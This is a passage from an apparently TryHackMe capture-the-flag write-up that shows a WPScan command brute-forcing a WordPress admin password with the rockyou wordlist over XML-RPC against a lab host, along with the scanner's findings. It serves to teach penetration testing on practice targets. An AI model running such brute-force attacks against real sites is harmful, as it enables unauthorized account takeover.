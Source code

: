 ```bash
[+] Data Received: 472.771 KB
[+] Memory used: 160.75 MB
[+] Elapsed time: 00:00:08
```
### Cracking the Admin password
We see that WPScan gave us a user named admin and that XML-RPC seems to be enabled which will allow us to bruteforce some passwords. Let's see if we can crack the admin password. 

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ wpscan --url http://internal.thm/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.15
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [10.10.56.197]
[+] Started: Tue Aug 17 18:13:14 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
```